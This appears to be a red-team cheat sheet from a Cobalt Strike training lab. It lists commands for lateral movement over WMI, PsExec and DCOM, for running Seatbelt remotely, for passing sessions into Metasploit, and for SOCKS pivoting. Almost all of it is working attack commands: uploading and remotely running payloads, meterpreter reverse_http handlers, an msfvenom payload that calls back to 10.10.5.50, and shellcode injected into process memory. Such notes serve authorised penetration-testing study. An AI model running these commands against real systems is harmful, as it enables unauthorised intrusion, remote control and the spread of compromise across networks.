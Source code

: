 ```powershell
# Example Windows Management Instrumentation (WMI)
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10

# Executing .Net binary remotely
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web

# Invoke DCOM (better opsec)
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
beacon> link web.dev.cyberbotic.io agent_vinod

NOTE: While using remote-exec for lateral movement, kindly generate the windows service binary as psexec creates a windows service pointing to uploaded binary for execution
```
## Session Passing
CASE 1: Beacon Passing (Within Cobalt Strike - Create alternate HTTP beacon while keeping DNS as lifeline)
```powershell
beacon> spawn x64 http
```
CASE 2: Foreign Listener (From CS to Metasploit - Staged Payload - only x86 payloads)
```powershell
# Setup Metasploit listener
attacker@ubuntu ~> sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST ens5
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run

# Setup a Foreign Listener in cobalt strike with above IP & port details

# Use Jump psexec to execute the beacon payload and pass the session
beacon> jump psexec Foreign_listener
```
CASE 3: Shellcode Injection (From CS to Metasploit - Stageless Payload)
```powershell
# Setup up metasploit
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
msf6 exploit(multi/handler) > exploit

# Generate binary
ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin

# Inject msf shellcode into process memory
beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
```
## Pivoting
```powershell
# Enable Socks Proxy in beacon session (Use SOCKS 5 for better OPSEC)
beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging

# Verify the SOCKS proxy on team server
attacker@ubuntu ~> sudo ss -lpnt

```